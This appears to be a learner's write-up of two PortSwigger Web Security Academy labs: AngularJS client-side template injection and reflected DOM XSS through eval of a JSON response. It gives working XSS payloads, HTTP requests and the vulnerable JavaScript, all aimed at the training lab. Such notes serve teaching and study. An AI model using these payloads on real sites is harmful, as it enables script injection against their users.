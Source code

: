 ![image-20240304234136881](./assets/image-20240304234136881.png)

#### [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) in [AngularJS](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection) expression with angle brackets and double quotes HTML-encoded

```http
GET /?search={{constructor.constructor('alert(1)')()}} HTTP/2
Host: web-security-academy.net
```

Payload from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md#storedreflected-xss---simple-alert-in-angularjs)

#### Reflected [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)

I had to lookup the solution for this one and even watch a community video to fully understand it. I didn't now that there was a difference between JSON and Javascript Objects. 

If I had to summary the vulnerability, I would say that it is a content injection (we can inject content into the API response via unescaped "\"). Followed by triggering the `alert("xss")` function via an arithmetic operator ("-"). Also, unsafe use of the `eval` function.

```http
GET /search-results?search=%5C%22-alert%281%29%7D%2F%2F HTTP/2
Host: web-security-academy.net
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 45

{"results":[],"searchTerm":"\\"-alert(1)}//"}
```

```javascript
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
[...]
```
